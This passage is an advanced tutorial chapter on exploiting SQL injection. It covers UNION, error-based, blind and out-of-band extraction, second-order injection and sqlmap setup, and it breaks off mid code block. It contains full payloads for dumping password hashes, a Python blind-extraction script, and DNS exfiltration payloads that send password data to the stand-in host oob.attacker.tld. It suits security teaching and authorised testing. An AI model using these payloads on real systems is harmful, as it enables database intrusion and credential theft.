





**Level:** Advanced · **Track:** Bug Bounty & AppSec · **Read time:** 240 min

This is Chapter 2 of the Injection notebook — Notebook 23. The previous chapter built the
foundation: what a database and SQL are, how a web app's code turns your input into a
broken query, the full taxonomy of SQL injection, and — most importantly — a rigorous
methodology for *discovering and confirming* an injection point safely. This chapter picks
up exactly where that left off. You have a confirmed injectable parameter; now you learn
to *exploit* it: to make the database hand you its data, and in the worst cases hand you
the operating system it runs on.

Exploitation is where SQLi splits into techniques, and the split is driven by one question:
**how does information come back to you?** If the app reflects query results into the page,
you can use the fast, direct **UNION-based** and **error-based** techniques. If it reflects
nothing but behaves differently depending on your input, you fall back to **inferential
(blind)** techniques — boolean and time-based — extracting data one bit at a time. If it
reflects nothing *and* behaves identically no matter what you inject, you reach for
**out-of-band** exfiltration over a side channel like DNS. This chapter teaches all of
them from first principles, then teaches `sqlmap` to automate the grind, then shows how to
turn "I can read the database" into "I can read files and run commands," and closes with a
consolidated defense section. Ethics from Chapter 5 of the Foundations track govern
throughout: on a real program you extract the *minimum* needed to prove impact — a
`version()` banner, a single hashed row — and you never dump customer data or attempt RCE
without explicit authorisation.

## Why This Matters

Discovery proves a bug exists; exploitation proves it *matters*. A triager on a bug-bounty
platform will downgrade or close a report that says only "a single quote produces an
error." What moves a report to Critical is a screenshot showing you extracted the database
version, the current user, and a redacted proof row from a sensitive table — demonstrating
that an unauthenticated attacker could read arbitrary data. The techniques in this chapter
are exactly how that proof is produced, and they are the difference between a $150 "possible
SQLi" and a $10,000 "unauthenticated database read."

They also teach a deeper lesson that recurs across the whole notebook: **exfiltration
channels.** UNION reflects data directly; error-based smuggles data inside an error message;
blind extraction leaks one bit per request through a behavioural difference; out-of-band
leaks data through DNS lookups. That progression — from a fat, direct channel down to a
one-bit-per-request covert channel — is the same mental model you'll use later for blind
SSRF, blind command injection, blind XXE, and timing side-channels in cryptography. Learn
the channels here, on SQLi, where they're easiest to see.



## Part 1: Recap and the Exploitation Decision Tree

Before exploiting, restate what you must already know from Chapter 1, because every
exploitation payload depends on it:

- **The injection context.** Is your input inside a single-quoted string (`WHERE name='INPUT'`),
  a numeric context (`WHERE id=INPUT`), an `ORDER BY` clause, a `LIKE` pattern, an `IN (...)`
  list, an identifier, or a second-order sink? The context dictates how you *break out* and
  how you *comment out* the tail of the original query.
- **The DBMS.** MySQL/MariaDB, Microsoft SQL Server (MSSQL), PostgreSQL, Oracle, and SQLite
  all speak dialects that differ in string concatenation, comment syntax, the metadata
  tables, the sleep function, and the stacked-query support. You fingerprinted it in
  Chapter 1; you *use* that fingerprint now.
- **The technique that fits the channel.** Use the decision tree above.

A quick reference for breaking out and terminating, which you'll reuse in every payload
below. Assume the original query is `SELECT * FROM products WHERE id = '$input' LIMIT 10`.

| Context | Example original | Break-out + comment payload (MySQL) |
|---|---|---|
| Single-quoted string | `... WHERE name='$in'` | `' UNION SELECT ... -- -` |
| Numeric (unquoted) | `... WHERE id=$in` | `1 UNION SELECT ... -- -` |
| Double-quoted string | `... WHERE name="$in"` | `" UNION SELECT ... -- -` |
| ORDER BY | `... ORDER BY $in` | `(CASE WHEN (1=1) THEN name ELSE id END)` |
| LIKE | `... WHERE name LIKE '%$in%'` | `%' UNION SELECT ... -- -` |
| Inside parentheses | `... WHERE id=('$in')` | `') UNION SELECT ... -- -` |

**Comment styles matter and trip people up constantly.** In MySQL the inline comment `-- `
requires a trailing space (or use `-- -` so the space is visible and not stripped); `#` also
works but must be URL-encoded as `%23` in a query string; `/* */` works inline. MSSQL and
PostgreSQL and Oracle use `--` (double dash) happily. When in doubt, append `-- -` — the
trailing `-` guarantees a non-whitespace character after the required space so proxies and
browsers don't eat it.

**Bug bounty note:** most real-world SQLi that pays well is *not* a clean numeric context on
a search page — it's a quoted string context behind a WAF, in a JSON body, or a second-order
sink. The break-out table above is the muscle memory that gets you from "confirmed" to
"first byte extracted" quickly.

## Part 2: In-Band UNION-Based Extraction (From Zero)

UNION-based injection is the fastest, cleanest extraction technique and the one to reach for
whenever the application **reflects query results into the page** — a product listing, a
search result, a profile page. It works by appending a second `SELECT` to the original with
the SQL `UNION` operator, so the results of *your* query are stitched onto the results of the
developer's query and rendered in the same place.

### 2.1 What UNION actually does

`UNION` combines the row-sets of two `SELECT` statements into one result set. Example, run
directly in a database:

```sql
SELECT id, name FROM products WHERE category = 'books'
UNION
SELECT id, name FROM products WHERE category = 'films';
```

This returns the books followed by the films, as one table. `UNION` has two hard rules that
define the entire technique:

1. **Both SELECTs must return the same number of columns.** `SELECT a, b UNION SELECT c`
   is a syntax error. This is why the first job in any UNION attack is *counting columns*.
2. **The corresponding columns must have compatible data types** (at least for the columns
   whose values you actually want to display). This is why the second job is *finding a
   column that can hold a string* — because the data you want to steal (usernames, version
   strings) is text.

By default `UNION` removes duplicate rows; `UNION ALL` keeps them. For injection it rarely
matters, but `UNION ALL` occasionally succeeds where `UNION` silently collapses your row
into an existing one, so keep it in your back pocket.

### 2.2 Step one: determine the number of columns

There are two reliable methods. Learn both — sites break in different ways.

**Method A — `ORDER BY` incrementing.** `ORDER BY n` sorts by the nth column. If the query
has fewer than `n` columns, the database throws an error (or, in some configs, behaves
differently). You binary-walk upward until it breaks:

```
' ORDER BY 1-- -      → OK
' ORDER BY 2-- -      → OK
' ORDER BY 3-- -      → OK
' ORDER BY 4-- -      → ERROR ("Unknown column '4' in 'order clause'")
```

Four columns triggered the error, so the query has **3 columns**. `ORDER BY` is preferred
for counting because it works even when a type mismatch would otherwise hide a UNION.

**Method B — `UNION SELECT NULL` incrementing.** `NULL` is compatible with every data type,
so it sidesteps the type-matching rule while you're still just counting:

```
' UNION SELECT NULL-- -                 → ERROR (wrong number of columns)
' UNION SELECT NULL,NULL-- -            → ERROR
' UNION SELECT NULL,NULL,NULL-- -       → OK (page renders)
```

Three NULLs succeeded, so the query has **3 columns**. When it succeeds you'll often see an
extra blank/garbage row appear in the listing — that's your injected row, rendering NULLs.

**Oracle quirk:** Oracle's `SELECT` always needs a `FROM`. Use the built-in dummy table
`DUAL`: `' UNION SELECT NULL,NULL,NULL FROM DUAL-- -`.

### 2.3 Step two: find which columns are string-compatible and reflected

You know there are 3 columns. Now find which of them (a) accepts a string and (b) is
actually printed on the page. Replace the NULLs one at a time with a recognisable string
marker:

```
' UNION SELECT 'aaa',NULL,NULL-- -
' UNION SELECT NULL,'aaa',NULL-- -
' UNION SELECT NULL,NULL,'aaa'-- -
```

Whichever request makes the literal `aaa` appear in the HTML tells you which column position
is both text-capable and reflected. Say `aaa` shows up for the second payload — column 2 is
your exfiltration slot. If you get a type error when placing a string in a given column
(common in MSSQL/PostgreSQL, which are stricter), that column is numeric-only; move on.

**MySQL is forgiving** about types in UNION (it will coerce), so string markers usually work
in any column. **PostgreSQL and MSSQL are strict** — a string into an `int` column throws.
That strictness is itself a fingerprint (covered in Chapter 1).

### 2.4 Step three: extract real data

Now put useful expressions in the reflected column. Start with the identity trio — version,
current user, current database — as minimal, non-sensitive proof:

```sql
-- MySQL / MariaDB
' UNION SELECT NULL, CONCAT(version(),0x3a,current_user(),0x3a,database()), NULL-- -
```

`0x3a` is the hex byte for `:` — using hex avoids needing quotes inside your already-quoted
payload, a trick you'll use constantly. Sample rendered output in the listing:

```
8.0.36-0ubuntu0.22.04.1:webapp@localhost:shopdb
```

That single string proves: MySQL 8.0.36, running as `webapp@localhost`, current database
`shopdb`. On a bounty, **stop here and screenshot** unless your scope explicitly allows more.

To pull multiple columns through your single reflected slot, concatenate them with a
separator. To pull multiple *rows* through a single reflected row, aggregate them:

```sql
-- MySQL: dump all usernames+passwords into one cell, one row per line
' UNION SELECT NULL,
  (SELECT GROUP_CONCAT(username,0x3a,password SEPARATOR 0x0a) FROM users),
  NULL-- -
```

`GROUP_CONCAT` mashes many rows into one string; `0x0a` is a newline. Realistic output:

```
admin:$2b$12$Nn5...redacted...
alice:$2b$12$Kd9...redacted...
bob:$2b$12$Lp2...redacted...
```

### 2.5 The information_schema — the map of the database

You rarely know table and column names in advance. Every modern DBMS (except older Oracle,
which uses `ALL_TABLES`/`ALL_TAB_COLUMNS`) exposes a metadata catalog called
`information_schema` that lists every table and column. This is the single most important
object in SQLi exploitation.

```sql
-- List all tables in the current database (MySQL/MSSQL/PostgreSQL)
' UNION SELECT NULL,
  (SELECT GROUP_CONCAT(table_name SEPARATOR 0x0a)
   FROM information_schema.tables WHERE table_schema=database()),
  NULL-- -

-- List columns of the interesting table
' UNION SELECT NULL,
  (SELECT GROUP_CONCAT(column_name SEPARATOR 0x0a)
   FROM information_schema.columns WHERE table_name=0x7573657273),
  NULL-- -
```

`0x7573657273` is the hex encoding of `users` — again avoiding quotes. Once you have the
column names, dump them as in 2.4. This three-step loop — **tables → columns → data** — is
the core of every manual dump.



### 2.6 Per-DBMS UNION cheat data

The metadata queries and identity functions differ per DBMS. Keep this table handy:

| Goal | MySQL / MariaDB | MSSQL | PostgreSQL | Oracle |
|---|---|---|---|---|
| Version | `version()` or `@@version` | `@@version` | `version()` | `banner FROM v$version` |
| Current user | `current_user()` | `SYSTEM_USER` / `USER_NAME()` | `current_user` | `USER` |
| Current DB | `database()` | `DB_NAME()` | `current_database()` | (schema = user) |
| List tables | `information_schema.tables` | `information_schema.tables` | `information_schema.tables` | `ALL_TABLES` |
| List columns | `information_schema.columns` | `information_schema.columns` | `information_schema.columns` | `ALL_TAB_COLUMNS` |
| String concat | `CONCAT(a,b)` / `a` `b` | `a+b` / `CONCAT` | `a||b` | `a||b` |
| Comment | `-- -`, `#`, `/**/` | `--`, `/**/` | `--`, `/**/` | `--`, `/**/` |
| Dummy FROM | not required | not required | not required | `FROM DUAL` |
| Stacked queries | usually no | yes (`;`) | yes (`;`) | no (via most drivers) |

## Part 3: Error-Based Extraction (When Data Isn't Reflected but Errors Are)

Sometimes the application does not display query results at all, but it *does* leak database
error messages (a verbose 500 page, a stack trace, an echoed exception). You can weaponise
those error messages as your exfiltration channel by forcing the database to *fail while
computing your data*, embedding the data inside the error text.

### 3.1 MySQL: EXTRACTVALUE and UPDATEXML

Both functions expect valid XPath as their second argument. Feed them a string that starts
with `~` (an illegal XPath char) concatenated with your data, and MySQL throws an error that
*quotes the offending string back to you* — data included.

```sql
-- EXTRACTVALUE — leaks version() in the error text
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()) ))-- -
```

Realistic error returned to the page:

```
XPATH syntax error: '~8.0.36-0ubuntu0.22.04.1'
```

```sql
-- UPDATEXML — same idea, different function (leaks the admin hash)
' AND UPDATEXML(1, CONCAT(0x7e, (SELECT password FROM users LIMIT 1)), 1)-- -
```

```
XPATH syntax error: '~$2b$12$Nn5...redacted'
```

**Key limitation:** MySQL error strings are truncated to **32 characters**. Long values
(full password hashes, long secrets) must be extracted in windows using `SUBSTRING(data, 1, 31)`,
then `SUBSTRING(data, 32, 31)`, and so on, reassembling the pieces. This is tedious by hand
and the reason error-based is best automated with sqlmap (Part 8).

### 3.2 The classic double-query (floor/rand/group by) trick

Older MySQL leaks data via a duplicate-key error triggered by a `rand()`/`group by`
collision. It's ugly but works where the XPath functions are filtered:

```sql
' AND (SELECT 1 FROM (SELECT COUNT(*),
      CONCAT((SELECT version()), 0x3a, FLOOR(RAND(0)*2)) x
      FROM information_schema.tables GROUP BY x) y)-- -
```

Resulting error:

```
Duplicate entry '8.0.36-0ubuntu...:1' for key '<group_key>'
```

The version string is embedded in the "Duplicate entry" message.

### 3.3 MSSQL: type-conversion errors

MSSQL is the friendliest DBMS for error-based, because converting a string to `int` throws
an error that *includes the string*:

```sql
-- MSSQL — CONVERT/CAST leaks data via a conversion error
' AND 1=CONVERT(int, (SELECT @@version))-- -
' AND 1=CAST((SELECT TOP 1 name FROM sys.databases) AS int)-- -
```

Realistic error:

```
Conversion failed when converting the nvarchar value
'Microsoft SQL Server 2019 (RTM) ...' to data type int.
```

No 32-char truncation limit here — MSSQL conversion errors return the whole string, which is
why error-based is often the *fastest* path on MSSQL targets.

### 3.4 PostgreSQL: CAST errors

```sql
-- PostgreSQL — invalid cast leaks data
' AND 1=CAST((SELECT version()) AS int)-- -
' AND 1=CAST((SELECT current_database()) AS int)-- -
```

```
invalid input syntax for type integer:
"PostgreSQL 14.10 on x86_64-pc-linux-gnu ..."
```

| DBMS | Primary error-based primitive | Length limit | Notes |
|---|---|---|---|
| MySQL | `EXTRACTVALUE`/`UPDATEXML` (XPath) | 32 chars | Window with `SUBSTRING`; double-query fallback |
| MSSQL | `CONVERT`/`CAST` to `int` | none | Fastest; returns full string |
| PostgreSQL | `CAST(... AS int)` | none | Also `::int` shorthand |
| Oracle | `CTXSYS.DRITHSX.SN`, `utl_inaddr` | varies | `utl_inaddr` also enables OOB (Part 6) |

**Blue-team relevance (previewing Part 12):** error-based injection depends entirely on the
app leaking DB errors to the client. The single highest-value defensive control against it is
returning a generic error page and logging the real exception server-side — this removes the
entire error-based channel and is trivial to implement.

## Part 4: Inferential (Blind) SQL Injection — Boolean-Based

When nothing useful is reflected — no data, no errors — but the page still behaves
*differently* depending on whether an injected condition is true or false, you have
**boolean-based blind** injection. You cannot read data directly; instead you ask the
database a stream of yes/no questions and read the answers from the page's behaviour.

### 4.1 The core idea: turn the page into a one-bit oracle

First establish a reliable **true vs false** signal. Inject a condition known to be true and
one known to be false, and find an observable difference (a product appears vs "no results",
`Welcome back` vs blank, HTTP 200 vs 500, response length changes):

```sql
' AND 1=1-- -      → page shows the normal product  (TRUE state)
' AND 1=2-- -      → page shows "no results"        (FALSE state)
```

Once you can distinguish TRUE from FALSE, you can ask *any* yes/no question about the data.

### 4.2 Extracting data one character at a time

You extract a value by asking, for each character position, "is this character greater than
X?" — a **binary search** over the ASCII range (32–126), which finds each character in ~7
requests instead of ~95.

```sql
-- Is the 1st char of the DB version >= 'M' (ASCII 77)? (MySQL)
' AND ASCII(SUBSTRING((SELECT version()),1,1)) > 77-- -

-- Binary-search that position:
' AND ASCII(SUBSTRING((SELECT version()),1,1)) > 64-- -   TRUE
' AND ASCII(SUBSTRING((SELECT version()),1,1)) > 96-- -   FALSE
' AND ASCII(SUBSTRING((SELECT version()),1,1)) > 80-- -   FALSE
' AND ASCII(SUBSTRING((SELECT version()),1,1)) = 56-- -   TRUE  → char is '8'
```

`SUBSTRING(str, pos, len)` extracts `len` characters starting at 1-indexed `pos`; `ASCII()`
(MySQL/PostgreSQL) or `UNICODE()` (MSSQL) converts a character to its code point. Walk `pos`
from 1 upward until `SUBSTRING(...,pos,1)` is empty (the string ended). You now have the
full value, one character at a time.

### 4.3 Function reference for blind string surgery

| Operation | MySQL | MSSQL | PostgreSQL | Oracle |
|---|---|---|---|---|
| Nth character | `SUBSTRING(s,n,1)` | `SUBSTRING(s,n,1)` | `SUBSTR(s,n,1)` | `SUBSTR(s,n,1)` |
| Char → code | `ASCII(c)` | `UNICODE(c)` | `ASCII(c)` | `ASCII(c)` |
| String length | `LENGTH(s)` | `LEN(s)` | `LENGTH(s)` | `LENGTH(s)` |
| Substring count | `(SELECT COUNT(*)...)` | same | same | same |
| Conditional | `IF(cond,a,b)` | `CASE WHEN cond THEN a ELSE b END` | `CASE WHEN ...` | `CASE WHEN ...` |

**Determine length first** to know how many positions to walk:

```sql
' AND LENGTH((SELECT password FROM users WHERE username=0x61646d696e))=60-- -
```

(`0x61646d696e` = `admin`.) A 60-char length instantly tells you it's a bcrypt hash.

### 4.4 A worked boolean extraction in Python

Doing this by hand is masochism past a few characters. A tiny script automates it — and
writing your own is a rite of passage that makes sqlmap's behaviour legible later:

```python
import requests, string

URL = "https://lab.example/product"
TRUE_MARKER = "Add to cart"          # text present only in the TRUE state
CHARSET = string.printable

def is_true(payload):
    r = requests.get(URL, params={"id": f"1' AND {payload}-- -"})
    return TRUE_MARKER in r.text

def extract(expr, maxlen=64):
    out = ""
    for pos in range(1, maxlen + 1):
        lo, hi = 32, 126
        if not is_true(f"ASCII(SUBSTRING(({expr}),{pos},1)) > 0"):
            break                     # string ended
        while lo < hi:                # binary search this char
            mid = (lo + hi) // 2
            if is_true(f"ASCII(SUBSTRING(({expr}),{pos},1)) > {mid}"):
                lo = mid + 1
            else:
                hi = mid
        out += chr(lo)
        print(f"[+] {out}")
    return out

print(extract("SELECT password FROM users WHERE username=0x61646d696e"))
```

Sample run:

```
[+] $
[+] $2
[+] $2b
[+] $2b$
[+] $2b$1
[+] $2b$12
...
[+] $2b$12$Nn5...redacted
```

**CTF note:** boolean-based blind is the single most common "hard" SQLi flavour in CTF web
challenges and in PortSwigger's blind labs, precisely because it forces you to write or
adapt a script like this. Being fluent in this loop is worth a lot of points.

## Part 5: Inferential (Blind) SQL Injection — Time-Based

When even the boolean channel is invisible — the page looks byte-for-byte identical whether
your condition is true or false — you fall back to the **response time** as your oracle.
You make the database *sleep* when a condition is true, and measure how long the response
takes. Slow = true, fast = false.

### 5.1 The sleep primitives per DBMS

| DBMS | Unconditional delay | Conditional delay (delay only if TRUE) |
|---|---|---|
| MySQL | `SLEEP(5)` | `' AND IF(cond, SLEEP(5), 0)-- -` |
| MySQL (alt) | `BENCHMARK(5000000,MD5(1))` | inside `IF(...)` |
| MSSQL | `WAITFOR DELAY '0:0:5'` | `'; IF(cond) WAITFOR DELAY '0:0:5'-- -` |
| PostgreSQL | `pg_sleep(5)` | `' AND (SELECT CASE WHEN cond THEN pg_sleep(5) ELSE pg_sleep(0) END)-- -` |
| Oracle | `dbms_pipe.receive_message('a',5)` | inside `CASE` |

`BENCHMARK` and heavy subqueries are useful when `SLEEP` is filtered — they burn CPU for a
measurable time instead of sleeping.

### 5.2 Confirming time-based, then extracting

First confirm the channel with an unconditional delay and compare timings:

```sql
' AND SLEEP(5)-- -            → response takes ~5s   → time-based works
' AND SLEEP(0)-- -            → response is instant  → baseline
```

Then make the sleep conditional on a data question, exactly like the boolean binary search
but with the observable being *time* instead of *page content*:

```sql
-- Is the 1st char of the current user 'r' (114)?  Sleeps 5s if true. (MySQL)
' AND IF(ASCII(SUBSTRING((SELECT current_user()),1,1))=114, SLEEP(5), 0)-- -
```

The Python loop from Part 4 becomes time-based by swapping the oracle:

```python
import requests, time

def is_true(payload):
    start = time.time()
    requests.get(URL, params={"id": f"1' AND IF({payload}, SLEEP(3), 0)-- -"})
    return (time.time() - start) > 2.5     # threshold below the sleep, above jitter
```

### 5.3 The pitfalls that make time-based unreliable

- **Network jitter.** Set the sleep duration well above normal latency variance (3–5s) and
  set the threshold in the middle. On a noisy target, sleep 8s and threshold at 5s.
- **Connection pooling / async.** Some stacks return the HTTP response before the query
  finishes; time-based then fails even though the injection is real. Try stacked-query
  sleeps or a different technique.
- **Rate limits & WAFs** hate a flood of near-identical slow requests — this is the noisiest,
  slowest technique and the most likely to get you blocked or noticed.
- **It is SLOW.** Each character costs ~7 requests × ~5s = ~35s. A 60-char hash is ~35
  minutes. This is why time-based is the technique of last resort and why you *always* let
  sqlmap grind it with `--technique=T --threads` rather than doing it by hand.

**Blue-team relevance:** a burst of requests to one endpoint where response time clusters at
suspicious round numbers (5.0s, 10.0s) with tiny payload variations is a near-perfect
time-based-SQLi signature. Alert on per-endpoint latency outliers correlated with request
volume from one source.



## Part 6: Out-of-Band (OOB) Exfiltration

The final channel: the app reflects nothing, errors nothing, and behaves identically no
matter what — but the database server can make **outbound network connections**. You force
it to perform a DNS lookup or HTTP request to a host you control, encoding stolen data in
the subdomain. You then read the data from your DNS/HTTP logs. This turns a fully blind,
"unexploitable-looking" injection into a fast, direct exfil channel.

### 6.1 MSSQL over DNS/UNC

MSSQL will resolve a UNC path, triggering a DNS lookup to your Burp Collaborator / interactsh
domain, with the stolen data as the leftmost label:

```sql
'; DECLARE @d varchar(1024);
   SELECT @d = (SELECT TOP 1 password FROM users);
   EXEC('master..xp_dirtree "\\'+@d+'.oob.attacker.tld\x"')-- -
```

You then see `s2bs12snn5...redacted.oob.attacker.tld` appear in your Collaborator DNS log.
(Characters illegal in DNS labels must be hex-encoded first.)

### 6.2 Oracle over HTTP/DNS

```sql
-- Oracle: UTL_HTTP or UTL_INADDR forces an outbound lookup
' AND (SELECT UTL_INADDR.GET_HOST_ADDRESS(
   (SELECT user FROM dual)||'.oob.attacker.tld') FROM dual) IS NOT NULL-- -
```

### 6.3 MySQL over UNC (Windows hosts only)

```sql
-- MySQL LOAD_FILE on a UNC path triggers SMB, then DNS (Windows MySQL only)
' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),
   '.oob.attacker.tld\\x')),NULL,NULL-- -
```

You need an OOB listener. The two standard tools are **Burp Collaborator** (built into Burp
Pro) and **interactsh** (free, open-source):

```bash
# interactsh-client — spins up a throwaway domain and prints inbound DNS/HTTP hits
interactsh-client
# registers e.g. c8f3...oast.fun and logs every DNS query it receives
```

**OOB is the fastest blind technique by far** — one request can exfil an entire value in a
single DNS label — but it requires the DB host to have outbound network access, which
hardened environments block. Try it early on internal engagements; expect it to fail on
well-segmented production networks.

## Part 7: Second-Order SQL Injection

Not all injection fires immediately. In **second-order** (stored) SQLi, your payload is
safely stored on the first request (often correctly escaped on insert) and only executed
later, when some *other* code path reads it back and concatenates it into a new query
without re-sanitising.

Classic example: registration stores a username `admin'-- -`. The registration `INSERT` is
parameterised, so nothing happens then. Later, a "change password" feature builds:

```sql
UPDATE users SET password='newpass' WHERE username='admin'-- -'
```

Your stored username breaks out of *this* query, and you change admin's password. The
injection point (where the query breaks) is different from the entry point (where you
supplied the data), which is exactly why scanners and quick tests miss it.



Finding second-order requires **tracking your inputs to their sinks**: register with
payloads in every stored field, then exercise every feature that later displays or re-queries
that data. Burp's scanner has limited second-order detection; disciplined manual testing (and
distinctive canary values per field so you can tell which stored input reached which sink)
wins here.

## Part 8: sqlmap — Automating the Grind (From Scratch)

Everything above is essential to *understand*, but doing it by hand on a real target is slow
and error-prone. **`sqlmap`** is the industry-standard open-source tool that automates
detection and exploitation of SQLi across all major DBMSes. It is the single most useful tool
in this chapter — but only *after* you understand the techniques it's automating, so you can
read its output critically and craft the arguments it needs.

### 8.1 What sqlmap is and how to install it

`sqlmap` is a Python tool that takes a request (a URL, a saved Burp request, a raw HTTP file)
and systematically tests parameters for every SQLi technique — Boolean, Error, Union,
Stacked, Time, and Inline — fingerprints the DBMS, and can then enumerate and dump the
database, read/write files, and pop an OS shell. It ships on Kali; elsewhere:

```bash
# Kali — already installed. Otherwise:
sudo apt install sqlmap           # Debian/Kali/Ubuntu
pipx install sqlmap               # cross-platform, isolated
git clone https://github.com/sqlmapproject/sqlmap   # bleeding edge
python3 sqlmap/sqlmap.py --version
```

### 8.2 The core workflow and essential flags

The cleanest way to feed sqlmap a real, authenticated, correctly-headered request is to save
it from Burp (right-click, *Copy to file*, or *Save item*) and pass it with `-r`:

```bash
